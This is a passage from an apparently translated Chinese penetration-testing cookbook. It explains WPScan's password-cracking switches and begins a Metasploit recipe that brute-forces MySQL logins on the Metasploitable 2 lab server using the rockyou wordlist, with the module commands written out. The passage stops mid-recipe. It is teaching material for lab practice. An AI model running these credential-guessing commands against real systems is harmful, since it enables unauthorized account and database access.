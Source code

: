 ![操作步骤...](img/image_04_023.jpg)

1.  让我们检查密码是否有效。访问登录页面：

```
    https://x.x.x.x:12380/blogblog/wp-login.php

    ```

输出将如下截屏所示：

![操作步骤...](img/image_04_024.jpg)

## 它是如何工作的...

让我们了解前面命令中使用的开关：

+   `-u`：此开关指定要访问的 URL

+   `--wordlist`：此开关指定要用于破解的字典或密码列表

+   `--threads`：此开关指定要加载的线程数，以通过并行作业执行实现性能

## 还有更多...

WPScan 具有相当多的功能。它允许用户枚举安装的主题、插件、用户、timthumbs 等。在 WordPress 安装中使用其他可用命令来检查它们的功能总是一个好主意。

# 使用自定义字典破解 MySql 和 PostgreSQL 登录

在这个教程中，我们将看到如何访问 MySQL 和 Postgres 数据库。我们将使用 Metasploitable 2 易受攻击的服务器来执行攻击。

## 准备工作

在这个练习中，我们将使用 Metasploit 作为我们的模块来执行凭据攻击，因为我们已经在之前的教程中看到了其他工具的工作原理。让我们启动 Metasploit 控制台并开始利用 SQL 服务器。

## 操作步骤...

1.  一旦您进入 Metasploit 控制台，输入以下命令：

```
          use auxiliary/scanner/mysql/mysql_login
          set username root
          set stop_on_success true
          set rhosts <Target IP address>
          set pass_file /usr/share/wordlists/rockyou.txt
          exploit
